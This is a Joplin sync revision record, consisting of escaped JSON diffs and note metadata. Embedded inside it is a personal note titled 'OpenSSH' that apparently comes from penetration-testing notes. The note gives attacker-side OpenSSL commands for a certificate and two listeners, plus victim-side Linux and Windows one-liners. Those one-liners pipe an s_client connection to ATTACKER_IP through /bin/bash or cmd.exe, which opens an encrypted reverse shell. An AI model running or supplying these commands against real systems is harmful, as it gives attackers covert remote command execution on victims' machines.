 id: 5f3cfff7c2a940ec8e3669d16cadf465
parent_id: 
item_type: 1
item_id: 101315d1283e46e5a68bae75e83ab1e1
item_updated_time: 1646016697108
title_diff: "[{\"diffs\":[[1,\"38b30f32613b421e9df1a759320caa09\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":32}]"
body_diff: "[{\"diffs\":[[1,\"id: 38b30f32613b421e9df1a759320caa09\\\r\\\nparent_id: \\\r\\\nitem_type: 1\\\r\\\nitem_id: 6b802989f53e414e97c1a369c95baae5\\\r\\\nitem_updated_time: 1642143929382\\\r\\\ntitle_diff: \\\"[{\\\\\\\"diffs\\\\\\\":[[1,\\\\\\\"OpenSSH\\\\\\\"]],\\\\\\\"start1\\\\\\\":0,\\\\\\\"start2\\\\\\\":0,\\\\\\\"length1\\\\\\\":0,\\\\\\\"length2\\\\\\\":7}]\\\"\\\r\\\nbody_diff: \\\"[{\\\\\\\"diffs\\\\\\\":[[1,\\\\\\\"Attacker (Kali)\\\\\\\\\\\\\n\\\\\\\\\\\\\n> openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes #Generate certificate\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> openssl s_server -quiet -key key.pem -cert cert.pem -port <l_port> #Here you will be able to introduce the commands\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> openssl s_server -quiet -key key.pem -cert cert.pem -port <l_port2> #Here yo will be able to get the response\\\\\\\\\\\\\n\\\\\\\\\\\\\nVictim\\\\\\\\\\\\\n\\\\\\\\\\\\\n> #Linux\\\\\\\\\\\\\n> openssl s\\\\\\\\\\\\\\\\_client -quiet -connect &lt;ATTACKER\\\\\\\\\\\\\\\\_IP&gt;:&lt;PORT1&gt;|/bin/bash|openssl s\\\\\\\\\\\\\\\\_client -quiet -connect &lt;ATTACKER\\\\\\\\\\\\\\\\_IP&gt;:&lt;PORT2&gt;\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> #Windows\\\\\\\\\\\\\n> openssl.exe s\\\\\\\\\\\\\\\\_client -quiet -connect &lt;ATTACKER\\\\\\\\\\\\\\\\_IP&gt;:&lt;PORT1&gt;|cmd.exe|openssl s\\\\\\\\\\\\\\\\_client -quiet -connect &lt;ATTACKER\\\\\\\\\\\\\\\\_IP&gt;:&lt;PORT2&gt;\\\\\\\"]],\\\\\\\"start1\\\\\\\":0,\\\\\\\"start2\\\\\\\":0,\\\\\\\"length1\\\\\\\":0,\\\\\\\"length2\\\\\\\":692}]\\\"\\\r\\\nmetadata_diff: {\\\"new\\\":{\\\"id\\\":\\\"6b802989f53e414e97c1a369c95baae5\\\",\\\"parent_id\\\":\\\"b8fe3751a1b24ee7ad3f067e0a5bfdcd\\\",\\\"latitude\\\":\\\"1.36730000\\\",\\\"longitude\\\":\\\"103.80140000\\\",\\\"altitude\\\":\\\"0.0000\\\",\\\"author\\\":\\\"\\\",\\\"source_url\\\":\\\"\\\",\\\"is_todo\\\":0,\\\"todo_due\\\":0,\\\"todo_completed\\\":0,\\\"source\\\":\\\"joplin-desktop\\\",\\\"source_application\\\":\\\"net.cozic.joplin-desktop\\\",\\\"application_data\\\":\\\"\\\",\\\"order\\\":0,\\\"markup_language\\\":1,\\\"is_shared\\\":0,\\\"share_id\\\":\\\"\\\",\\\"conflict_original_id\\\":\\\"\\\",\\\"master_key_id\\\":\\\"\\\"},\\\"deleted\\\":[]}\\\r\\\nencryption_cipher_text: \\\r\\\nencryption_applied: 0\\\r\\\nupdated_time: 2022-01-14T07:12:53.616Z\\\r\\\ncreated_time: 2022-01-14T07:12:53.616Z\\\r\\\ntype_: 13\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":1702}]"
metadata_diff: {"new":{"id":"101315d1283e46e5a68bae75e83ab1e1","parent_id":"fb73d1d872ce4ee6ab184091f1e4c67b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1646016697096,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:54:22.642Z
created_time: 2022-02-28T02:54:22.642Z
type_: 13